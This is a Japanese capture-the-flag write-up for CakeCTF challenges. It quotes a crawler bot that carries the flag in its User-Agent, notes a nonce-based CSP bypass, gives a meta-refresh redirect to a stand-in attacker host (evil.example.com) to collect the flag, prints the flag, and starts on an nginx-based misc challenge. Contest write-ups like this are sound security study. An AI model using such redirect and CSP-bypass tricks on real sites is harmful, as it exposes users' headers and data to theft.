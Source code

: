 ただし、nonceがある場所でしかスクリプトが走らないようになっていてこれを突破する必要があります。

```javascript title="crawler.js"
const crawl = async (post_url) => {
    if (!post_url.match(/\/post\/[0-9a-f]{32}\/[0-9a-f]{32}$/)) {
        return;
    }
    const url = base_url + post_url;

    const browser = await puppeteer.launch(browser_option);
    try {
        const page = await browser.newPage();
        page.setUserAgent(flag); // [!] steal this flag
        await page.goto(url, {timeout: 3000});
        await wait(3000);
        await page.close();
    } catch(e) { }

    await browser.close();
}
```

とりあえずbotのソースコードを見ると、フラグがUser-Agentに入っていることがわかりました。
適当な攻撃サイトにアクセスさせることができればフラグが手に入りそうです。

というわけで
```html
<meta http-equiv="refresh" content="1;url=http://evil.example.com" />
```
リダイレクトさせます。

### フラグ

```
CakeCTF{CSP_1s_n0t_4_s1lv3r_bull3t!_bang!_bang!}
```

first blood:birthday:でした。
この問題はfirst bloodがprize対象だったので、ﾔｯﾀｰ!

javascriptスキームとmetaタグリダイレクトは便利な小手先テクニックなので毎回チェックしてます。

## [misc] telepathy

173 pts, 29 solves

問題文:
> HTTP is no longer required. It's time to use telepathy to communicate more securely and quickly. Here is my PoC: http://misc.cakectf.com:18100

### 解法

```nginx title="default.conf"
    location / {
        # I'm getting the flag with telepathy...
        proxy_pass  http://app:8000/;

        # I will send the flag to you by HyperTextTelePathy, instead of HTTP
        header_filter_by_lua_block { ngx.header.content_length = nil; }
        body_filter_by_lua_block { ngx.arg[1] = ngx.re.gsub(ngx.arg[1], "\\w*\\{.*\\}", "I'm sending the flag to you by telepathy... Got it?\n"); }
    }
```


[^1]: 実際にはコンテスト中にこの謎挙動の仕様調査はせず、10回くらい同じ文字列を投げれば何個かヒット漏れするでしょという気持ちで、雑にリクエストを投げています。
[^2]: https://github.com/waderwu/My-CTF-Challenges/blob/master/0ctf-2021/1linephp/writeup/1linephp_writeup_en.md